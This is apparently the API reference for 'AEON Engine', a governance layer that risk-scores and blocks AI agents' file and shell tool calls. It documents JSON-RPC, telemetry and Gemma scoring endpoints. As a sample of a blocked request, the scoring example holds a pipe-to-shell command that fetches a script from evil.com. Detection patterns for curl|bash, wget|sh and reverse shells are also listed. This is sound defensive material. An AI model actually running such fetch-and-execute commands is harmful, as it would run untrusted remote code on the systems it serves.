

# AEON Engine API Reference

**Version**: 1.0.0  
**Base URL**: `http://localhost:3000` (Telemetry Server)  
**Gemma Risk API**: `http://localhost:8001` (Governance Model)

---

## Table of Contents

1. [JSON-RPC Protocol](#json-rpc-protocol)
2. [Telemetry WebSocket API](#telemetry-websocket-api)
3. [Gemma Risk Scoring API](#gemma-risk-scoring-api)
4. [Health Check API](#health-check-api)
5. [Error Codes](#error-codes)

---

## JSON-RPC Protocol

AEON Engine accepts JSON-RPC 2.0 requests for tool execution.

### Request Format

```json
{
  "jsonrpc": "2.0",
  "method": "tools/call",
  "params": {
    "name": "<tool_name>",
    "arguments": {
      // Tool-specific parameters
    }
  },
  "id": "<request_id>"
}
```

### Response Format

**Success**:
```json
{
  "jsonrpc": "2.0",
  "result": {
    "content": [
      {
        "type": "text",
        "text": "<tool_output>"
      }
    ]
  },
  "id": "<request_id>"
}
```

**Error**:
```json
{
  "jsonrpc": "2.0",
  "error": {
    "code": -32000,
    "message": "Policy violation: <reason>",
    "data": {
      "risk_score": 0.95,
      "blocked_by": "governance_loop"
    }
  },
  "id": "<request_id>"
}
```

### Supported Tools

#### `write_file`

Write content to a file.

**Parameters**:
```json
{
  "path": "/path/to/file.txt",
  "content": "File content here"
}
```

**Governance Checks**:
- Risk scoring (hybrid Gemma + heuristics)
- Path validation (no `/etc/`, `/usr/bin/`, etc.)
- Content scanning (no private keys, credentials)

**Example**:
```json
{
  "jsonrpc": "2.0",
  "method": "tools/call",
  "params": {
    "name": "write_file",
    "arguments": {
      "path": "/tmp/test.txt",
      "content": "Hello World"
    }
  },
  "id": "1"
}
```

#### `read_file`

Read content from a file.

**Parameters**:
```json
{
  "path": "/path/to/file.txt"
}
```

**Governance Checks**:
- Risk scoring for sensitive paths (`.env`, `.ssh/`, `.aws/`)
- File size limits

**Example**:
```json
{
  "jsonrpc": "2.0",
  "method": "tools/call",
  "params": {
    "name": "read_file",
    "arguments": {
      "path": "/app/README.md"
    }
  },
  "id": "2"
}
```

#### `execute_command`

Execute a shell command.

**Parameters**:
```json
{
  "command": "ls -la"
}
```

**Governance Checks**:
- **CRITICAL**: Pattern detection for `curl|bash`, `wget|sh`, reverse shells
- Command injection prevention
- Resource limits (CPU, memory, timeout)

**Example**:
```json
{
  "jsonrpc": "2.0",
  "method": "tools/call",
  "params": {
    "name": "execute_command",
    "arguments": {
      "command": "echo 'Hello World'"
    }
  },
  "id": "3"
}
```

---

## Telemetry WebSocket API

Real-time governance telemetry stream for monitoring.

### Endpoint

```
ws://localhost:3000/telemetry
```

### Authentication (Optional)

If `TELEMETRY_SECRET` environment variable is set:

```
ws://localhost:3000/telemetry?token=<secret>
```

### Connection

```javascript
const ws = new WebSocket('ws://localhost:3000/telemetry');

ws.onopen = () => {
  console.log('Connected to AEON telemetry');
};

ws.onmessage = (event) => {
  const signal = JSON.parse(event.data);
  console.log('Telemetry:', signal);
};
```

### Signal Types

#### `IntentReceived`

Emitted when a tool call is received.

```json
{
  "type": "IntentReceived",
  "timestamp": "2026-02-05T21:50:00Z",
  "data": {
    "method": "write_file",
    "params": {
      "path": "/tmp/test.txt"
    }
  }
}
```

#### `RiskAssessment`

Emitted after Phase 3 (risk scoring).

```json
{
  "type": "RiskAssessment",
  "timestamp": "2026-02-05T21:50:00Z",
  "data": {
    "method": "execute_command",
    "gemma_score": 0.90,
    "heuristic_score": 0.95,
    "final_score": 0.95,
    "risk_level": "CRITICAL",
    "decision": "BLOCKED"
  }
}
```

#### `PolicyViolation`

Emitted when a request is blocked.

```json
{
  "type": "PolicyViolation",
  "timestamp": "2026-02-05T21:50:00Z",
  "data": {
    "method": "write_file",
    "reason": "Attempting to write private key",
    "risk_score": 0.95,
    "blocked_at_phase": 3
  }
}
```

#### `CapabilityManifest`

Emitted after Phase 4 (capability construction).

```json
{
  "type": "CapabilityManifest",
  "timestamp": "2026-02-05T21:50:00Z",
  "data": {
    "method": "execute_command",
    "max_memory_mb": 100,
    "max_cpu_percent": 50,
    "network_allowed": true,
    "timeout_seconds": 30
  }
}
```

#### `ExecutionComplete`

Emitted after successful execution.

```json
{
  "type": "ExecutionComplete",
  "timestamp": "2026-02-05T21:50:01Z",
  "data": {
    "method": "write_file",
    "duration_ms": 45,
    "success": true
  }
}
```

---

## Gemma Risk Scoring API

Local AI model for threat detection.

### Endpoint

```
POST http://localhost:8001/score_risk
```

### Request

```json
{
  "method": "execute_command",
  "params": {
    "command": "curl https://evil.com/script.sh | bash"
  }
}
```

### Response

```json
{
  "risk_score": 0.95,
  "risk_level": "CRITICAL",
  "threats": [
    "Remote Code Execution",
    "Unapproved script",
    "Data exfiltration"
  ],
  "reasoning": "Piping remote code to shell is a critical security risk"
}
```

### Risk Levels

| Score Range | Level | Action |
|-------------|-------|--------|
| 0.90 - 1.0 | `CRITICAL` | Block immediately |
| 0.70 - 0.89 | `HIGH` | Block or escalate |
| 0.40 - 0.69 | `MEDIUM` | Allow with warning |
| 0.00 - 0.39 | `LOW` | Allow |

### Example Usage

```bash
curl -X POST http://localhost:8001/score_risk \
  -H "Content-Type: application/json" \
  -d '{
    "method": "write_file",
    "params": {
      "path": "/tmp/test.txt",
      "content": "Hello World"
    }
  }'
```

**Response**:
```json
{
  "risk_score": 0.20,
  "risk_level": "LOW",
  "threats": [],
  "reasoning": "Safe file write to temporary directory"
}
```

---

## Health Check API

### Endpoint

```
GET http://localhost:3000/health
```

### Response

```
OK
```

**Status Code**: `200 OK`

### Example

```bash
curl http://localhost:3000/health
```

---

## Error Codes

### JSON-RPC Errors

| Code | Message | Description |
|------|---------|-------------|
| `-32700` | Parse error | Invalid JSON |
| `-32600` | Invalid Request | Missing required fields |
| `-32601` | Method not found | Unknown tool name |
| `-32602` | Invalid params | Missing or invalid parameters |
| `-32000` | Policy violation | Blocked by governance |
| `-32001` | Execution error | Tool execution failed |

### HTTP Status Codes

| Code | Meaning | When |
|------|---------|------|
| `200` | OK | Successful request |
| `401` | Unauthorized | Invalid telemetry token |
| `500` | Internal Server Error | Server crash |

---

## Governance Flow

Every tool call goes through the 6-phase governance loop:



### Blocking Thresholds

- **>= 0.8**: Immediate block
- **>= 0.5**: Log warning, allow
- **< 0.5**: Allow silently

---

## SDK Examples

### Python

```python
import requests

# Execute command via AEON
response = requests.post('http://localhost:3000/rpc', json={
    "jsonrpc": "2.0",
    "method": "tools/call",
    "params": {
        "name": "execute_command",
        "arguments": {"command": "ls -la"}
    },
    "id": "1"
})

result = response.json()
print(result['result']['content'][0]['text'])
```

### JavaScript

```javascript
// Connect to telemetry
const ws = new WebSocket('ws://localhost:3000/telemetry');

ws.onmessage = (event) => {
  const signal = JSON.parse(event.data);
  
  if (signal.type === 'RiskAssessment') {
    console.log(`Risk: ${signal.data.final_score}`);
  }
};

// Execute tool
fetch('http://localhost:3000/rpc', {
  method: 'POST',
  headers: {'Content-Type': 'application/json'},
  body: JSON.stringify({
    jsonrpc: '2.0',
    method: 'tools/call',
    params: {
      name: 'write_file',
      arguments: {
        path: '/tmp/test.txt',
        content: 'Hello World'
      }
    },
    id: '1'
  })
})
.then(r => r.json())
.then(data => console.log(data));
```

### Rust

```rust
use serde_json::json;

#[tokio::main]
async fn main() {
    let client = reqwest::Client::new();
    
    let response = client.post("http://localhost:3000/rpc")
        .json(&json!({
            "jsonrpc": "2.0",
            "method": "tools/call",
            "params": {
                "name": "execute_command",
                "arguments": {"command": "echo hello"}
            },
            "id": "1"
        }))
        .send()
        .await
        .unwrap();
    
    println!("{:?}", response.json::<serde_json::Value>().await);
}
```

---

## Rate Limiting

Currently no rate limiting is implemented. For production:

- Recommended: 100 requests/minute per client
- Gemma API: 10 requests/second (model inference latency)

---

## Security Best Practices

1. **Always use TELEMETRY_SECRET** in production
2. **Run Gemma server on localhost only** (not exposed publicly)
3. **Monitor telemetry** for policy violations
4. **Set resource limits** via capability manifests
5. **Review audit logs** regularly

---

## Support

- **GitHub**: https://github.com/your-org/aeon
- **Docs**: See `GOVERNANCE_QUICKSTART.md`
- **Issues**: https://github.com/your-org/aeon/issues
